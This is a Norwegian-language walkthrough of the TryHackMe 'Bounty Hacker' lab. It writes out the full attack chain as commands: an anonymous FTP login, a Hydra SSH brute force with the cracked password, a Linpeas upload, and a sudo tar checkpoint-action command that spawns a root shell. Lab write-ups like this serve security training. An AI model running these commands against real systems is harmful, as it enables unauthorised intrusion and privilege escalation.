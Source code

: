 ## Bounty Hacker - Try Hack Me

En maskin som var rata *easy* på tryhackme.com
Omhandlet å ta seg inn på en anonym ***FTP*** server for å hente ut noen filer. Videre ble det brukt ***Hydra*** for å bruteforce oss inn på ***ssh***. Til slutt fant man ut at brukeren hadde rettigheter til å ***kjøre en kommando som root***, og man kunne spawne et root shell.

Link til maskinen: https://tryhackme.com/room/cowboyhacker  

```sh
export IP=10.10.13.45
```
Kjører først en **NMAP** scan:

```sh
nmap -sV -sC -oA nmap/ $IP
```
NMAP skannen viste til 3 åpne porter på maskinen:

- ***21 ftp***
- ***22 ssh***
- ***80 http***


# 1. OPPGAVER
# 1.1. USER.TXT
FTP serveren er første hintet.
Serveren har anonym pålogging, så jeg kom inn ved å skrive
```sh
ftp $IP
```

Når den spør om username så brukte jeg "anonymous", passord feltet lot jeg være blankt.
Lasta ned en `task.txt` og en `locks.txt` som lå på fil serveren.
I task.txt finner man ut at en av brukerene heter "Lin". Locks.txt inneholder bare masse passord.

Så et av hintene er at man skal bruteforce ssh porten med de passordene funnet.
Til dette brukte jeg Hydra:
```sh
hydra -l lin -P locks.txt $IP -t 4 ssh
```

-l er user, og -P brukes for å spesifisere en wordlist man skal bruke til bruteforcen.
Hydra fant en successfull login --> `lin:RedDr4gonSynd1cat3`

Logger da inn på ssh med
```sh
ssh lin@$IP
```

Brukte denne guiden for hydra:
https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux  
På desktopen lå det en user.txt fil som inneholdt flagget.



# 1.2. ROOT.TXT
Brukte ssh til å kopiere over et privesc script. Bruker Linpeas i dette tilfelle:
```sh
scp ./linpeas.sh lin@$IP:/home/Documents/
```

Linpeas skriptet har jeg klonet fra githuben deres: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

Den ga mye nyttig, men det viktigste var at man måtte sjekke kommandoen "sudo -l"
sudo -l ga meg noe å jobbe med:
```sh
User lin may run the following commands on bountyhacker:                                                                                                     
    (root) /bin/tar
```

Så kjørte jeg et søk på GTFObin om `tar` kommandoen. Det fantes flere muligheter, og dette var kommandoen jeg endte opp med å kjøre for å spawne et root shell:
```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Kan se om man er root ved å skrive `id`, eller `whoami`.
Deretter bruker jeg shellet til å finne `root.txt` fila:
```sh
find / -name "root.txt" 2>/dev/null
```

